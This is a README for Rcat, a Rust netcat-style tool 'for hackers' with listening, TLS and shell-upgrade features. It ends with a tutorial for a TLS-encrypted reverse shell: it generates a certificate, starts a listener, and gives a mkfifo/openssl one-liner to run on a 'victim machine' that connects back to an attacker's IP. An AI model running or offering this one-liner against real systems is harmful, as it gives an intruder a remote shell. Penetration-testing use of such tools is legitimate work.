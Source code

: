 <div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.

<img src="images/rcat_curl.svg">

Here we listen on the port `tcp:9001`, and recieve an HTTP request made with `curl`.

### Install

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
No need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) every type you obtain a reverse shell.

<img src="images/rcat_pwn.svg">

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.

<img src="images/rcat_tls.svg">

  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If possible, you should probaby use a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), but for now let's use a self-signed certificate.

### Generate Key and Certificate

Let's generate a __self-signed certificate__ with `openssl`.

```bash
openssl genrsa -out private-key.pem 2048
openssl req -new -x509 -key private-key.pem -out my.cert -days 365
```

### Reverse Shell

Armed with this, let's create a _listener_ that supports TLS.

```bash
rcat -l 9001 -t --cert my.cert --key private-key.pem --pwn
```

And execute the following command on the victim machine:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:9001 >/tmp/f
```
